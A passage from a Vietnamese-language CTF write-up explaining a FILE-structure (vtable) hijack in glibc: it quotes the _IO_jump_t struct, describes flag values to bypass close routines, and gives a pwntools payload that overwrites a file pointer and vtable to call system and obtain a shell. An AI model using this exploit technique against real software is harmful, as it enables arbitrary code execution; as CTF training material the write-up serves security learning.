 ```c 
      fp->_IO_file_flags = 0;
      free(fp);
    }

  return status;
}
```
- target của ta là `_IO_FINISH`, vì `_IO_FINISH` nằm trong `vtable`(còn gọi là `_IO_jump_t`), ta có thể overwrite nó thành địa chỉ ta muốn trỏ đến nó
```c 
struct _IO_jump_t
{
    JUMP_FIELD(size_t, __dummy);
    JUMP_FIELD(size_t, __dummy2);
    JUMP_FIELD(_IO_finish_t, __finish); # target
    JUMP_FIELD(_IO_overflow_t, __overflow);
    JUMP_FIELD(_IO_underflow_t, __underflow);
    JUMP_FIELD(_IO_underflow_t, __uflow);
    JUMP_FIELD(_IO_pbackfail_t, __pbackfail);
    /* showmany */
    JUMP_FIELD(_IO_xsputn_t, __xsputn);
    JUMP_FIELD(_IO_xsgetn_t, __xsgetn);
    JUMP_FIELD(_IO_seekoff_t, __seekoff);
    JUMP_FIELD(_IO_seekpos_t, __seekpos);
    JUMP_FIELD(_IO_setbuf_t, __setbuf);
    JUMP_FIELD(_IO_sync_t, __sync);
    JUMP_FIELD(_IO_doallocate_t, __doallocate);
    JUMP_FIELD(_IO_read_t, __read);
    JUMP_FIELD(_IO_write_t, __write);
    JUMP_FIELD(_IO_seek_t, __seek);
    JUMP_FIELD(_IO_close_t, __close);
    JUMP_FIELD(_IO_stat_t, __stat);
    JUMP_FIELD(_IO_showmanyc_t, __showmanyc);
    JUMP_FIELD(_IO_imbue_t, __imbue);
};
```
- để đến đươc `_IO_FINISH`, ta cần bypass qua ` _IO_un_link ((struct _IO_FILE_plus *) fp)` và `_IO_old_file_close_it (fp)`, lý do là 2 hàm này sẽ làm chương trình dừng trước khi ta lấy được shell, muốn biết chi tiết hơn thì mình có gán link ở cuối chall
- vậy ta cần set cho `_IO_IS_FILEBUF` là 0 là sẽ bypass qua 2 hàm trên , mặc định `_IO_IS_FILEBUF` là 0x2000 rồi, ta sẽ set nó thành 0xffffdfff
```
#define _IO_IS_FILEBUF 0x2000
```
- sau 0xffffdfff là `;/bin/sh\0` (hoặc là `;$0\0`) để set lệnh thực thi tiếp theo 
- ý tưởng payload của ta sẽ hình dung như thế này 

![image](https://github.com/gookoosss/CTF/assets/128712571/fade809a-52e9-4b0f-b46c-d5b8c5c9247f)


- dựa trên ý tưởng trên ta sẽ viết được payload như sau 
```c 
payload = p32(0xffffdfff) + b';$0\0' # name 
payload = payload.ljust(0x20, b'a') # padding 
payload += p32(exe.sym.name) # *fp , overwrite *fp to point to name 
payload = payload.ljust(76, b'a') # padding 
# payload += p32(exe.sym.filename + 16) # bypass file->_lock (no need)
payload += p32(exe.sym.name + 72) # file->vtable = name + 72 + 8
payload += p32(libc.sym.system) # name + 80
p.sendlineafter(b'name :', payload)
```
- chạy trên server và ta đã lấy được shell 
- lấy được shell rồi ta phải giải thêm 1 chall baby nữa để có flag :))
